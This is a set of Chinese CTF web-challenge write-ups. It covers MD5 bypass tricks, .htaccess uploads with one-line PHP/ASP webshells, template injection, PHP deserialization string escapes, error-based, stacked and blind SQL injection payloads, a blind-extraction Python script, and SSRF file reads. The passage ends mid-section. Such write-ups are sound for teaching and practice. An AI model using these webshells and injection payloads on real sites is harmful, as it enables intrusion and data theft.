

# wp

## Easy MD5(sql注入+MD5绕过)

1. sql注入中md5绕过

    ```mysql
    select * from 'admin' where password=md5($pass,true)
    ```

    md5(string, raw)

    | 参数 | 描述 |
    |-----|-----|
    | string | 必须。要计算的字符串 |
    | raw | 可选，默认false,32位16进制字符串;True。16位原始二进制字符串 |

    当raw为True时，md5值经过hex转成字符串后为`'or' xxxxx`这样的字符串，则拼接后的sql语句为：

    ```mysql
        select * from `admin` where password='' or 'xxxxx'
    ```

    所以需要保证or后面的值为true，
    - mysql特性:'xxxxx'以非0数字开头即为true
    - 这里提供一个常用的字符串
    `ffifdyop`

2. 代码审计
    - 如下php代码中的比较为弱等于(eg. "==", "!=")，开头相等即可

        ```php
        $a = $GET['a'];
        $b = $_GET['b'];

        if($a != $b && md5($a) == md5($b)){
        // wow, glzjin wants a girl friend.
        ```

        常见MD5碰撞组合

        ```md
        s878926199a                       //原始字符串
        0e545993274517709034328855841020  //md5值
        s155964671a
        0e342768416822451524974117254469
        s214587387a
        0e848240448830537924465865611904
        s214587387a
        0e848240448830537924465865611904
        s878926199a
        0e545993274517709034328855841020
        s1091221200a
        0e940624217856561557816327384675
        s1885207154a
        0e509367213418206700842008763514
        s1502113478a
        0e861580163291561247404381396064
        s1885207154a
        0e509367213418206700842008763514
        s1836677006a
        0e481036490867661113260034900752
        s155964671a
        0e342768416822451524974117254469
        s1184209335a
        0e072485820392773389523109082030
        s1665632922a
        0e731198061491163073197128363787
        s1502113478a
        0e861580163291561247404381396064
        s1836677006a
        0e481036490867661113260034900752
        s1091221200a
        0e940624217856561557816327384675
        s155964671a
        0e342768416822451524974117254469
        s1502113478a
        0e861580163291561247404381396064
        s155964671a
        0e342768416822451524974117254469
        s1665632922a
        0e731198061491163073197128363787
        s155964671a
        0e342768416822451524974117254469
        s1091221200a
        0e940624217856561557816327384675
        s1836677006a
        0e481036490867661113260034900752
        s1885207154a
        0e509367213418206700842008763514
        s532378020a
        0e220463095855511507588041205815
        s878926199a
        0e545993274517709034328855841020
        s1091221200a
        0e940624217856561557816327384675
        s214587387a
        0e848240448830537924465865611904
        s1502113478a
        0e861580163291561247404381396064
        s1091221200a
        0e940624217856561557816327384675
        s1665632922a
        0e731198061491163073197128363787
        s1885207154a
        0e509367213418206700842008763514
        s1836677006a
        0e481036490867661113260034900752
        s1665632922a
        0e731198061491163073197128363787
        ```

    - PHP数组绕过，由于哈希函数无法处理php数组，在遇到数组时返回false，我们就可以利用false==false使条件成立

        ```url
        /levels91.php?a[]=1&b[]=2      //a不等于b
        ```

    - 下方代码中的比较为强比较,即只能采用php数组绕过

        ```php
         <?php

        error_reporting(0);
        include "flag.php";

        highlight_file(__FILE__);

        if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
            echo $flag;
        }
        ```

## MRCTF2020 文件上传漏洞(.htaccess+一句话木马)——菜刀/蚁剑

1. .htaccess 简介：
   .htaccess文件(或者"分布式配置文件")提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
   概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
   启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。
   笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。
2. .htaccess利用：
   1. 这里时是要包含所有文件带有lx1的文件（只要文件名里面有lx1都可以），都会被当成php代码执行

        ```.htaccess
            <FilesMatch "lx1">
            SetHandler application/x-httpd-php
            </FilesMatch>
        ```

   2. 这种方法时，后面的.png或者.jpg文件能被当成php代码执行，如果想换成别的改扩展名就可以

        ```.htaccess
            AddType application/x-httpd-php .png
            AddType application/x-httpd-php .jpg
        ```

3. 上传完.htaccess后，再上传菜刀,(菜刀名称需要和.htaccess中的一致)
   *每次上传文件都需要BP抓包，修改Content-Type*

   ```php
    php:<?@eval($_POST['cmd']);?>
    asp:<% request('cmd') %>
    aspx:<%@ Page Language="Jscript"%><% eval(Request.Item['cmd'],"unsafe");%>

   ```

4. 利用蚁剑连接，得到网站目录

## 护网杯2018-easy_tornado(render模板注入)——存在msg

- render简介：render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用
- 在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量
- 构造payload

  ```url
    ?msg={{handler.settings}}
  ```

## ZJCTF2019 nizhuansiwei(代码审计+php反序列化)

[php(phar)反序列化漏洞及各种绕过姿势](https://pankas.top/2022/08/04/php(phar)%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%90%84%E7%A7%8D%E7%BB%95%E8%BF%87%E5%A7%BF%E5%8A%BF/)

1. 源码

    ```php
        <?php  
        $text = $_GET["text"];
        $file = $_GET["file"];
        $password = $_GET["password"];
        if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
            echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
            if(preg_match("/flag/",$file)){
                echo "Not now!";
                exit(); 
            }else{
                include($file);  //useless.php
                $password = unserialize($password);
                echo $password;
            }
        }
        else{
            highlight_file(__FILE__);
        }
        ?> 
    ```

    get方式提交参数，text、file、password。
    1. 第一个需要绕过的地方
        `if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`
        - `file_get_contents($text,'r')==="welcome to the zjctf"`,从文件里读取字符串，还要和welcome to the zjctf相等。
  
            用到`data://`写入协议
            payload:`?text=data://text/plain,welcome to the zjctf`
    2. 序列化密码
        - 不可用flag.php访问,被正则匹配

        ```php
            if(preg_match("/flag/",$file)){
                echo "Not now!";
                exit(); 
            }else{
                include($file);  //useless.php
                $password = unserialize($password);
                echo $password;
            }
        ```

        - 读useless.php:`php://fliter/read=convert.base64-encode/resource=useless.php`,得到base64加密形式的useless.php，解密后得到useless.php源码

        ```php
            <?php
            class Flag{  //flag.php 
                public $file; 
                public function __tostring(){ 
                    if(isset($this->file)){ 
                        echo file_get_contents($this->file);
                        echo "<br>";
                    return ("U R SO CLOSE !///COME ON PLZ");
                    } 
                } 
            } 
            ?> 
        ```

        得到源码之后，我们将这个源码中的$file赋值flag.php，反序列化一下
        `./script/serialize.php`,得到反序列化的password
        payload:`?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}`

## 极客大挑战2019 Hard SQL(报错注入)

- 注入函数

  - `extractvalue()`

    语法：extractvalue(目标xml文档，xml路径)

    第一个参数 :   第一个参数可以传入目标xml文档

    第二个参数： xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

    *tips:还有要注意的地方是，它能够查询的字符串长度最大是32个字符，如果超过32位，我们就需要用函数来查询，比如right(),left()，substr()来截取字符串*

    eg. `SELECT extractValue('<a><b></b></a>'', '/a/b')`; 这个语句就是寻找前一段xml文档内容中的a节点下的b节点，这里如果Xpath格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。

    利用`concat`函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。
  - `updatexml()`

    `updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。

    *作用*：改变文档中符合条件的节点的值

    *语法*： updatexml（XML_document，XPath_string，new_value） 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据

    updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）

    例如： select * from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。

    eg. `1+and updatexml(1,concat(0x7e,(select database()),0x7e),1)`

  - floor()

    - *原理*：利用`select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;`导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。

    - floor (rand(0)*2)函数

        floor函数的作用就是返回小于等于括号内该值的最大整数。
        rand()本身是返回0~1的随机数，但在后面*2就变成了返回0~2之间的随机数。

        配合上floor函数就可以产生确定的两个数，即0和1。
        并且结合固定的随机数种子0，它每次产生的随机数列都是相同的值。

    - count（*）函数

        count（*）函数作用为统计结果的记录数。

        这就是对重复的数据进行整合计数，x就是每个name的数量
  - eg.

    `id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1)) x from information_schema.schemata group by x#`

- payload

    空格 ->  ()
    =    ->  like

    爆破数据库

    `1'or(extractvalue(1,concat(0x7e,(select(database())),0x7e)))`

    爆破表

    `?username=admin&password=admin'or(extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')))))#`

    爆破列

    `1'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e)))#`

    获取表内信息

    `1'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e)))#`

    如果substr未过滤的话可以通过substr函数进行两次读取获取完整的flag值

    或者用right函数,获取剩余flag

    `1'or(extractvalue(1,concat(0x7e,(select(right(password,20))from(H4rDsq1)),0x7e)))#`

    或者用regexp，原理是当正则匹配到flag值时可以正常返回已经读取到的32位flag值，当匹配错误时，则会返回密码错误

    `1'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)where(password)regexp('^f')),0x7e)))#`

## 网鼎杯2020 青龙组 反序列化

```php
    <?php

    include("flag.php");

    highlight_file(__FILE__);

    class FileHandler {

        protected $op;
        protected $filename;
        protected $content;

        function __construct() {
            $op = "1";
            $filename = "/tmp/tmpfile";
            $content = "Hello World!";
            $this->process();
        }

        public function process() {
            if($this->op == "1") {
                $this->write();
            } else if($this->op == "2") {
                $res = $this->read();
                $this->output($res);
            } else {
                $this->output("Bad Hacker!");
            }
        }

        private function write() {
            if(isset($this->filename) && isset($this->content)) {
                if(strlen((string)$this->content) > 100) {
                    $this->output("Too long!");
                    die();
                }
                $res = file_put_contents($this->filename, $this->content);
                if($res) $this->output("Successful!");
                else $this->output("Failed!");
            } else {
                $this->output("Failed!");
            }
        }

        private function read() {
            $res = "";
            if(isset($this->filename)) {
                $res = file_get_contents($this->filename);
            }
            return $res;
        }

        private function output($s) {
            echo "[Result]: <br>";
            echo $s;
        }

        function __destruct() {
            if($this->op === "2")
                $this->op = "1";
            $this->content = "";
            $this->process();
        }

    }

    function is_valid($s) {
        for($i = 0; $i < strlen($s); $i++)
            if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
                return false;
        return true;
    }

    if(isset($_GET{'str'})) {

        $str = (string)$_GET['str'];
        if(is_valid($str)) {
            $obj = unserialize($str);
        }

    }
```

### 方法一

1. php知识了解

    - PHP访问修饰符
        - public 公共的 任何成员都可以访问
        - private 私有的 只有自己可以访问
        绕过方式：%00类名%00成员名
        - protected 保护的 只有当前类的成员与继承该类的类才能访问
        绕过方式：%00%00成员名

    - PHP类
        - class 创建类

    - PHP关键字
        - function 用于用户声明自定义函数
        - $this-> 表示在类本身内部使用本类的属性或者方法
        - isset 用来检测参数是否存在并且是否具有值

    - PHP常见函数
        - include() 包含函数
        - highlight_file() 函数对文件进行语法高亮显示
        - file_put_contents() 函数把一个字符串写入文件中
        - file_get_contents() 函数把整个文件读入一个字符串中
        - is_valid() 检查对象变量是否已经实例化，即实例变量的值是否是个有效的对象
        - strlen 计算字符串长度
        - ord 用于返回 “S” 的 ASCII值，其语法是ord(string)，参数string必需，指要从中获得ASCII值的字符串

    - PHP魔法函数
        - __wakeup() 在进行unserialize反序列化的时候，首先查看有无该函数有的话就会先执行他

            绕过方法：在序列化的时候增加对象属性个数，如：

            ```php
                O:4:"xctf":1:{s:4:"flag";s:4:"flag";}
                变为
                O:4:"xctf":2:{s:4:"flag";s:4:"flag";}
            ```

        - __construct() 实例化对象时被调用
        - __destruct() 当删除一个对象或对象操作终止时被调用

2. PHP 代码审计

    ```php
        public function process() {
            if($this->op == "1") {
                $this->write();
            } else if($this->op == "2") {
                $res = $this->read();
                $this->output($res);
            } else {
                $this->output("Bad Hacker!");
            }
        }
    ```

    op=2，执行read操作

    ```php
        function is_valid($s) {
            for($i = 0; $i < strlen($s); $i++)
                if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
                    return false;
            return true;
        }
    ```

    php序列化的时候,对于private和protected类型的变量会引入不可见字符，private会引入两个`\x00`(其ascii码为0，url编码为`%00`)；protected变量会引入`\x00*\x00` (三个字符)

    绕过`is_valid()`函数判断，`%00`转化为`\00`;但是在反序列化的时候就会出现问题,所以用"S"替换"s",用来指示`\00`是16进制表示的字符串

    - 序列化代码

    ```php
        <?php

        class FileHandler{
            protected $op = 2;
            protected $filename = "flag.php";
            protected $content = "";
        }
        $a = new FileHandler();
        $b = urlencode(serialize($a));
        $b = str_replace("%00", "\\00", $b);
        $b = str_replace("s", "S", $b);
        echo($b);
        echo("\n");

        ?>
    ```

### 方法二

- 利用php7.1+对属性类型不敏感,直接在本地序列化的时候改变属性类型。

    ```php
        <?php

        class FileHandler{
            public $op=2;
            public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
            public $content=2;
        }
            $a = new FileHandler();
            echo serialize($a);
        >?  
    ```

## (序列化-字符串逃逸)

### 安洵杯2019 easy_serialize_php(extract()变量覆盖)

```php
    function filter($img){
        $filter_arr = array('php','flag','php5','php4','fl1g');
        $filter = '/'.implode('|',$filter_arr).'/i';
        return preg_replace($filter,'',$img);
    }
    //这里是将敏感词替换为空，造成了字符减少，我们就有了字符串逃逸的操作空间
```

```php
    $_SESSION["user"] = 'guest';
    $_SESSION['function'] = $function;

    extract($_POST);
    //extract()函数的变量覆盖，使得上面两个参数可控
```

```php
    if($function == 'phpinfo'){
        eval('phpinfo();'); //maybe you can find something in here!
    }else if($function == 'show_image'){
        $userinfo = unserialize($serialize_info);
        echo file_get_contents(base64_decode($userinfo['img']));
    }
    //file_get_contents()函数可以读取敏感文件
    //$userinfo['img']只进行了base64解码，结合前面我们需要让guset_img.png逃逸
    //继续跟进$userinfo['img']的入口，$userinfo = unserialize($serialize_info);  $serialize_info = filter(serialize($_SESSION));
    //所以是$_SESSION序列化后被filter函数处理，再反序列化赋给userinfo，最后取出img这个键对应的值
```

so:

```php
    $_SESSION['imgphpflag'] = ';s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}';

    if(!$_GET['img_path']){
        $_SESSION['img'] = base64_encode('guest_img.png');
    }else{
        $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
    }
    //经过if后_SESSION会添加一个img字段
    //其序列化结果是：s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";
    //经过过滤函数后序列化结果变成a:2:{s:10:"img";s:50:";s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}在反序列化的时候会发生截断，也就是字符串逃逸，if语句中添加的那部分就被截断了
```

本地序列化结果: `a:2:{s:10:"img";s:50:";s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

### 0CTF2016 piapiapia(备份文件泄露)

1. dirsearch 扫描，发现`www.zip`,发现源码
2. 首先看看config.php，里面有个flag变量
   
   ```php
   $config['hostname'] = '127.0.0.1';
   $config['username'] = 'root';
   $config['password'] = '';
   $config['database'] = '';
   $flag = '';
   ```

   然后是profile.php

   ```php
   $profile = unserialize($profile);
   $phone = $profile['phone'];
   $email = $profile['email'];
   $nickname = $profile['nickname'];
   $photo = base64_encode(file_get_contents($profile['photo']));
   ```

   发现一个敏感函数
   `file_get_contents()`(将一个文件读取到一个字符串中)
   还对`$profile`变量进行了反序列化
   这里我们就有了一个思路，可以使用`file_get_contents`函数读取`config.php`呢。这时候我们再找找`$profile`变量是什么传递过来的

   ```php
   $profile=$user->show_profile($username);
   ```

   继续跟踪`show_profile`方法，因为`profile.php`包含了`class.php`，所以我们去`class.php`寻找

   ```php
      public function show_profile($username) {
         $username = parent::filter($username);
         $where = "username = '$username'";
         $object = parent::select($this->table, $where);
         return $object->profile;
      }
   ```

   发现它对username变量进行了一些处理，调用了父类`filter`方法

   ```php
   public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);
		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
   ```

   username变量进行处理之后，再调用父类的select方法

   ```php
   public function select($table, $where, $ret = '*') {
		$sql = "SELECT $ret FROM $table WHERE $where";
		$result = mysql_query($sql, $this->link);
		return mysql_fetch_object($result);
	}
   ```

   到这里线索似乎就断了，再先看看其他的php
   这里看到`update.php`里面有个`serialize`(序列化操作)

   ```php
   $user->update_profile($username, serialize($profile));
   ```

   调用了`class.php`中user子类的`update_profile`方法，这时我们回到`class.php`

   ```php
   public function update_profile($username, $new_profile) {
      $username = parent::filter($username);
      $new_profile = parent::filter($new_profile);
      $where = "username = '$username'";
      return parent::update($this->table, 'profile', $new_profile, $where);
   }
   ```

   还是经过父类filter方法的处理，继续跟进父类的update方法

   ```php
   public function update($table, $key, $value, $where) {
      $sql = "UPDATE $table SET $key = '$value' WHERE $where";
      return mysql_query($sql);
   }
   ```

   首先数据经过序列化传入到数据库，然后取出的时候反序列化，那么势必需要传入参数，并且构造恶意参数吧，而update.php这个页面我们可以看到是一个数据传入的页面，那么我们就来看看是否存在漏洞。

   ```php
   if(!preg_match('/^\d{11}$/', $_POST['phone']))
	   die('Invalid phone');

   if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
      die('Invalid email');
         
   if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
      die('Invalid nickname');
   ```

   可以看到前两个参数好像都没什么办法绕过，但第三个参数好像可以绕过

   这里我们可以发现前面的正则时匹配所有字母和数字，也就是nickname是字母和数字的话，就是真，而strlen()函数可以使用数组绕过，这样一来nickname就完全被我们控制了。

   ```php
   $profile['phone'] = $_POST['phone'];
   $profile['email'] = $_POST['email'];
   $profile['nickname'] = $_POST['nickname'];
   $profile['photo'] = 'upload/' . md5($file['name']);
   $user->update_profile($username, serialize($profile));
   ```

3. 构造payload
   
   由于需要利用file_get_contents函数读取config.php

   ```php
   <?php
   $profile['phone'] = '18888888888';
   $profile['email'] = 'admin@qq.com';
   $profile['nickname'] = 'admin';
   $profile['photo'] = 'eval.jpg';
   echo serialize($profile);
   ```

   我们需要使序列化的结果为

   ```php
   a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:12:"admin@qq.com";s:8:"nickname";s:5:"admin";s:5:"photo";s:10:"config.php";}
   ```

   我们可以控制admin，所以我们可以让nickname为：

   ```php
   ";}s:5:"photo";s:10:"config.php";}
   # 数组序列化之后会多一层`{}`所以再第一个`s`前多了一个`}`
   ```

   序列化结果：

   ```php
   a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:12:"admin@qq.com";s:8:"nickname";s:34:""};s:5:"photo";s:10:"config.php";}";s:5:"photo";s:8:"eval.jpg";}
   ```

   此时的payload是无法反序列化的，因为还少34个字符

   ```php
   public function filter($string) {
      $escape = array('\'', '\\\\');
      $escape = '/' . implode('|', $escape) . '/';
      $string = preg_replace($escape, '_', $string);
      $safe = array('select', 'insert', 'update', 'delete', 'where');
      $safe = '/' . implode('|', $safe) . '/i';
      return preg_replace($safe, 'hacker', $string);
   }
   ```

   这里我们发现select,insert,update,delete都是六个字符，唯独where是五个字符，而把where替换成hacker，则多出来一个字符正好可以填充，那么使用34个where就可以解决这个问题

   最终payload

   ```php
   wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
   ```


## SUCTF2019 CheckIn(文件上传漏洞)

[文件上传漏洞与WAF绕过](https://blog.csdn.net/weixin_39190897/article/details/85334893)

[.user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

```ini
    GIF89a
    auto_prepend_file=[木马文件名称]
```

- 注意！！！

这种方式用蚁剑连接时，url地址应该是网站最初存在的php文件名称，而不是上传的木马

## GXYCTF Babysqli(MD5绕过+union联合查询创建虚拟表)——两种绕过方法

1. **联合注入有个技巧。在联合查询并不存在的数据时，联合查询就会构造一个 虚拟的数据。**

    即可以通过union联合查询构造一条数据`1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`(202cb962ac59075b964b07152d234b70为123 MD5加密值，因为题目中把"()"过滤了，所以不能md5()函数)，从而达到混淆admin用户密码

2. **利用md5函数无法处理数组**

    利用bp抓包，然后更改包中内容`1' union select 1,'admin',NULL#&pw[]=123`

## GYCTF2020 Blicklist(堆叠注入)

```sql
    show databases;   --获取数据库名
    show tables;  --获取表名
    show columns from `table_name`; --获取列名
```

- 堆叠注入-解法一(更改表名，将当前查询表名改成想要查询的表名，同时也要更改表内字段名称为当前表的字段名)

```sql
    -1''; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```

- 堆叠注入-解法二(将查询语句进行16进制编码)

  1. select被过滤了，所以先将select * from ` 1919810931114514 `进行16进制编码,payload如下

    ```sql
        ;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
    ```

  - prepare…from…是预处理语句，会进行编码转换。
  - execute用来执行由SQLPrepare创建的SQL语句。
  - SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。

- 堆叠注入-解法三(handler句柄)

    ```code
        HANDLER ... OPEN语句打开一个表，使其可以使用后续HANDLER ... READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER ... CLOSE或会话终止之前不会关闭
    ```

    payload:

    ```sql
    -1';handler `FlagHere` open as `a`; handler `a` read next;#
    ```

    ```sql
        HANDLER tbl_name OPEN [ [AS] alias]
 
        HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
            [ WHERE where_condition ] [LIMIT ... ]
        HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
            [ WHERE where_condition ] [LIMIT ... ]
        HANDLER tbl_name READ { FIRST | NEXT }
            [ WHERE where_condition ] [LIMIT ... ]
        
        HANDLER tbl_name CLOSE
    ```

## [CISCN2019 华北赛区 Day2 Web1]Hack World(bool盲注)

用bp fuzz测试或者其他方法，发现大部分关键字都被过滤了,所以考虑bool盲注
利用python脚本解出flag。

```python
    #buuctf web Hack World
    import requests
    import time
    
    
    url = "http://e08be384-4242-4180-bb44-7154471f1dc2.node5.buuoj.cn:81/index.php"
    flag = ""
    i = 0
    
    
    while True:
        i = i + 1
        letf = 32
        right = 127
        while letf < right:
            mid = (letf+right) // 2
            payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"  # 第一种解法(if判断)
            # payload = f"0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})"  # 第二种解法(异或)
            data = {"id":payload} 
            res = requests.post(url=url, data=data).text
            time.sleep(0.005)
            if "Hello" in res:
                letf = mid + 1
            else:
                right = mid
        if letf != 32:
            flag += chr(letf)
        else:
            break
    print(flag)
```

## [RoarCTF 2019]Easy Java(java 配置文件泄露)

### WEB-INF知识点

WEB-INF是java的WEB应用的安全目录，此外如果想在页面访问WEB-INF应用里面的文件，必须要通过web.xml进行相应的映射才能访问。

其中敏感目录举例：

```java
    /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则
    /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在.jar文件中
    /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
    /WEB-INF/src/：源码目录，按照包名结构放置各个java文件
    /WEB-INF/database.properties：数据库配置文件
```

访问方式

```xml
    <servlet-class>  这个就是指向我们要注册的servlet 的类地址, 要带包路径

    <servlet-mapping>  是用来配置我们注册的组件的访问路径,里面包括两个节点
    一个是<servlet-name>，这个要与前面写的servlet一致
    另一个是<url-pattern>，配置这个组件的访问路径

    <servlet-name> 这个是我们要注册servlet的名字,一般跟Servlet类名有关

    举个例子
    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
```

servlet包含了路径信息，我们尝试包含一下FlagController所在路径，不过这次要在前面加上classes来访问来访问class文件目录（详见上面的目录结构），且文件后缀为.class

这道题需要将请求方式改为POST，GET方式得不到想要的东西

## [网鼎杯 2018]Fakebook(sql注入+php反序列化)

1. 扫描网站目录(御剑/dirsearch)

   会扫到一个叫*robots.txt*的文件,(一般直接扫描到的flag.php直接访问的话是得不到flag的),通过robots.txt中提示的内容会得到一个后台数据展示处理逻辑的源码。通过代码审计发现存在ssrf漏洞

   ```php
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
   ```

   curl_exec()如果使用不当就会导致ssrf(服务端请求伪造)漏洞

2. 手动注册一个账号，blog处会有验证，输入一个网址就可以

   ```php
    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
   ```

3. 注册完成后登录发现用户处可以点击，进去看到url,no这个地方可能存在注入点，然后就是爆库，爆表等等。

   ```url
    http://71601955-9748-4b1d-aaae-0fa3e0652d97.node5.buuoj.cn:81/view.php?no=1
   ```

4. 正式注入，找flag(两种方法)
    1. 查询数据库信息`?no=-1 union/**/select 1,user(),3,4--+`,发现是root权限。
            load_file()函数可以利用绝对路径去加载一个文件。load_file(file_name):file_name是一个完整的路径，于是我们直接用var/www/html/flag.php路径去访问一下这个文件。

        payload: `?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+`

    2. 爆列发现存在一个名为data的列，爆data中的内容，发现是序列化后的字符串

        `O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:21;s:4:"blog";s:7:"abc.com";}`

        改动其中的内容

        `O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

        payload: `?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'`

## SSIT(服务端模板注入)
### WesternCTF2018 shrine

    源码

  ```python
    import flask
    import os
    app = flask.Flask(__name__)
    app.config['FLAG'] = os.environ.pop('FLAG')
    
    //显示代码
    @app.route('/')
    def index():
        return open(__file__).read()
    
    
    @app.route('/shrine/')
    def shrine(shrine):
        def safe_jinja(s):
            s = s.replace('(', '').replace(')', '')
            blacklist = ['config', 'self']
            return ''.join(['{}'.format(c)for c in blacklist]) + s
        return flask.render_template_string(safe_jinja(shrine))
    
    if __name__ == '__main__':
    app.run(debug=True)
  ```

  ```python
    os  python   # 文件目录方法模块，用来处理文件和目录
    os.environ   # os模块环境变量
    pop()        # pop() 方法删除字典给定键 key 所对应的值，返回值为被删除的值
  ```

  ```python
    app = flask.Flask(__name__)
    app.config['FLAG'] = os.environ.pop('FLAG')
